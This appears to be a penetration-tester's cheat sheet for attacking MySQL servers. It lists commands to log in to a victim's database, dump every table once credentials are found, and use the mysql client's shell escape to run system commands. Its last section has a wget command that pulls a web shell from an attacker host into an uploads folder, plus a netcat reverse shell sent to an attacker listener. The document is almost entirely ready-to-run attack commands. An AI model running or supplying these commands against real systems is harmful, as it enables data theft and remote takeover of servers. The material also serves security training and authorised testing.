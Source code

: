 Connect to and query MySQL database 
------------------------------------
```
mysql -u root -p -h <victims-ip>
<password>
show databases;
use <databasename>;
show tables;
SELECT * FROM <tablename>;
```
MySQL example (use when creds are discovered)
--------------------------
```
mysql -u <db-username> --password=<password> -e "SHOW DATABASES;"
returned results <db1 db2 db3>

mysql -u <db-username> --password=<password> -D db1 -e "SHOW TABLES;"
returned results <table1 table2 table3 table4>

mysql -u <db-username> --password=<password> -D db1 -e "SELECT * FROM table1;"
returned results <blah blah blah>
```

MySQL execute shell commands
-----------------------------
```
mysql -u <username> --password=<password> -e "\! ls -l"
mysql -u <username> --password=<password> -e "\! whoami"
mysql -u <username> --password=<password> -e "\! wget -O /var/www/uploads/shell.??? http://xxx.xxx.xxx.xxx/shell.???"

# On attacker
# nc -lvvnp 1337
mysql -u <username> --password=<password> -e "\! nc xxx.xxx.xxx.xxx 1337 -e /bin/bash"
```

